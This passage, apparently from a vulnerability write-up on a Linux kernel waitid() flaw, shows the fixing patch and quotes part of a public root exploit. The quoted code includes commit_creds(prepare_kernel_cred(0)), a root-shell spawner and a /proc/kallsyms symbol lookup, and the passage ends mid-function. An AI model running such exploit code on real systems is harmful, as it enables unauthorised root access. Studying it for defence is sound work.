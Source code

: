 ```c
 		return err;
 
+	if (!access_ok(VERIFY_WRITE, infop, sizeof(*infop)))
+		goto Efault;
+
 	user_access_begin();
 	unsafe_put_user(signo, &infop->si_signo, Efault);
 	unsafe_put_user(0, &infop->si_errno, Efault);
```
Nowadays, it just fixed like above.

## Payload Analysis
Of course, by above vulnerability, we can trigger that with **several various ways** but let's see 'the orignal' first :)
[payload](https://www.exploit-db.com/exploits/43029/).

```c
#define _GNU_SOURCE
 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/mman.h>
#include <string.h>
 
struct cred;
struct task_struct;
  
typedef struct cred *(*prepare_kernel_cred_t) (struct task_struct *daemon) __attribute__((regparm(3)));
typedef int (*commit_creds_t) (struct cred *new) __attribute__((regparm(3)));
  
prepare_kernel_cred_t   prepare_kernel_cred;
commit_creds_t    commit_creds;
  
void get_shell() {
  char *argv[] = {"/bin/sh", NULL};
  
  if (getuid() == 0){
    printf("[+] Root shell success !! :)\n");
    execve("/bin/sh", argv, NULL);
  }
  printf("[-] failed to get root shell :(\n");
}
  
void get_root() {
  if (commit_creds && prepare_kernel_cred)
    commit_creds(prepare_kernel_cred(0));
}
  
unsigned long get_kernel_sym(char *name)
{
  FILE *f;
  unsigned long addr;
  char dummy;
  char sname[256];
  int ret = 0;
  
  f = fopen("/proc/kallsyms", "r");
  if (f == NULL) {
    printf("[-] Failed to open /proc/kallsyms\n");
```
